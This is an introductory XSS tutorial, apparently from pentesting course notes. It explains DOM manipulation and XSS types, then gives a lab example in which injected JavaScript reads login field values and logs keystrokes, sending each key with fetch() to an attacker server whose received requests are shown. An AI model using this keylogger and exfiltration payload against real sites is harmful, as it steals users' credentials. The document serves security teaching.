




# XSS 101


**Cross-Site Scripting (XSS)** is a vulnerability where an attacker injects malicious scripts into web pages viewed by other users, typically through input fields or URL parameters.



This can lead to the theft of cookies, session tokens, or other sensitive data, and can also allow attackers to perform actions on behalf of the user or deface web pages.



Sanitize and escape user inputs, use Content Security Policy (CSP) headers, and validate input on both client and server sides to prevent unauthorized script execution.


## General Info

In layman's terms when a web page is loaded, the browser processes its HTML code, and creates a [**Document Object Model (DOM)**](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model) of the page, aka **DOM tree** (Figure1).

<figure><figcaption><p>Figure 1: The HTML to DOM process.</p></figcaption></figure>

JavaScript is used to access and modify all of the DOM's elements in order to create dynamic HTML content. **XSS's goal is to inject JavaScript code for accessing and/or modifying the page's DOM**. For instance, if our goal was to modify the page's header (`h1`) element, we could do this using JavaScript.

```javascript
// modifying the h1 element
document.querySelector('h1').textContent = 'Hello, DOM!';
```

## XSS Types

There are mainly two XSS classifications (Figure 2):

1. Based on the level of the payload's persistence: [**Reflected**](reflected.md) vs. [**Stored**](stored.md).
2. Based on which location the payload is outputted: **Server** vs. [**Client**](dom-based.md) (_aka_ _**DOM-based**_).&#x20;

<figure><figcaption><p>Figure 2: XSS classifications.</p></figcaption></figure>


* [Don't use `alert()`](https://portswigger.net/research/alert-is-dead-long-live-print), but rather `print()` or `prompt()`.
* Check for **HTML injection** first and then for XSS.


## Web APIs

There are many built-in [web APIs](https://developer.mozilla.org/en-US/docs/Web/API), but the following are the most useful from an XSS-standpoint.

<table><thead><tr><th width="132">API</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Console_API"><code>console</code></a></td><td>Used for <strong>debugging</strong> tasks, such as logging messages (<code>console.log</code>).</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Window"><code>window</code></a></td><td>Represents a window containing a DOM object. The <code>document</code> property points to the DOM document loaded in that window. Some useful properties are <code>localStorage</code>, <code>location</code>, and <code>alert</code>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Document"><code>document</code></a></td><td>Represents any web page loaded in the browser and serves as an entry point in the web page's content, which is the DOM tree. This is <strong>the most effective interface for exploiting an XSS flaw</strong>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API"><code>fetch</code></a></td><td>Allows <strong>fetching local and remote resources</strong>. It is <strong>non-blocking</strong>, i.e., the UI won't be locked up while the request is made and the response is returned. It does not return the data right away, instead, it <strong>returns a promise</strong> to complete the execution. To access the response, we need to use the <code>then</code> method and pass in a function to execute when the response is available.</td></tr></tbody></table>

## Example

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We have an app which contains a login form and our goal is to extract the `username` and `password` field values. We can use the `document` and the `console` APIs to achieve that (Figure 3).


In HTML, text boxes are created using the [`input`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/input) tag.


```javascript
// save the returned array into a variable
let inputs = document.getElementsByTagName("input")
// loop through the elements and extract their value
for (let input of inputs) {
  // log each value to the console
  console.log(input.value)
```

<figure><figcaption><p>Figure 3: Extracting the values of the targeted fields.</p></figcaption></figure>

We might also want to create a custom keylogger to extract information (Figure 4).

```javascript
// a function the logs keypresses to the console
function logKey(event){
    console.log(event.key)
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

<figure><figcaption><p>Figure 4: Creating a custom keylogger.</p></figcaption></figure>

If we send the above script to our target the keystrokes will be logged into their browser's console, but we won't have access to it. We can modify our script and use the `fetch` API to exfiltrate the data.

```javascript
// a function the sents keypresses to the our server via a GET request
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key);
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=I HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key= HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=L HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:56] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:56] "GET /k?key=i HTTP/1.1" 404 -
<SNIP>
```
